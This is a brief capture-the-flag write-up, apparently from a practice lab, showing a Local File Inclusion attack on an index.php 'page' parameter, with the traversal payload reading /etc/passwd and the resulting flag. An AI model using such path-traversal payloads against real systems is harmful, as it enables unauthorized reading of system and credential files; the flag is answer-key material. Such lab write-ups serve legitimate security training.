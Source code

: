 
[Local File Inclusion Vulnerability](https://youtu.be/AALacSN2SRw?list=PLqM63j87R5p77_vK-eL9eFbhz6BJ1Av7r)

u get message indications with each backtrack (../)

`http://IP/index.php?page=../../../../../../../` ==> pops "You can DO it !!!  :]"


`http://IP/index.php?page=../../../../../../../etc/passwd`

Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0


